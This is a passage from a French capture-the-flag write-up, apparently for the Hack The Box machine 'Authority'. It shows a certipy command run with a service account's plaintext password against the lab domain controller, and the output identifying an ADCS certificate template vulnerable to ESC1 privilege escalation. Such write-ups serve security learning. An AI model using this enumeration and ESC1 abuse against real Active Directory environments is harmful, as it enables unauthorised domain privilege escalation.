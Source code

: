 De notre côté, on peut utiliser certipy pour remarquer que le serveur est effectivement vulnérable à une attaque de type ESC1 :

```bash
certipy find -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -dc-ip '10.129.161.2' -vulnerable -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

<SNIP>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
```